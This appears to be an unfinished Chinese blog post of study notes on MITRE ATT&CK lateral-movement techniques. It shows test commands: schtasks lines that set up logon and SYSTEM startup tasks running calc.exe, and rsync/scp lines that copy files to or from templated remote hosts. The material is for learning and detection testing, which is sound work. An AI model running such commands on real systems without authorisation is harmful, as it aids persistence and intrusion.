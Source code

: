 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之lateral-movement
excerpt: "跟着ATT&CK学安全之lateral-movement"
categories: [ATT&CK]
comments: true
---
```

#### Application Deployment Software
攻击者可以通过企业管理员账号进行软件下发,来进行横向移动
#### T1037 - Logon Scripts
通过修改远程的Logon Scripts脚本来进行横向移动
##### 测试1 使用调度系统添加Logon自启动
```
schtasks /create /tn "T1037_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
schtasks /create /tn "T1037_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"
```
#### T1075 - Pass the Hash
这项技术不需要攻击者
#### T1105 - Remote File Copy
##### 测试1 rsync remote file copy (push)
平台:linux
`rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}`
##### 测试2 rsync remote file copy (pull)
平台:linux
`rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}`
##### 测试3 scp remote file copy (push)
平台:linux
`scp #{local_file} #{username}@#{remote_host}:#{remote_path}`
##### 测试4 scp remote file copy (pull)
平台:linux
`scp #{username}@#{remote_host}:#{remote_file} #{local_path}`
方法很多,未完待续

#### T1076 - Remote Desktop Protocol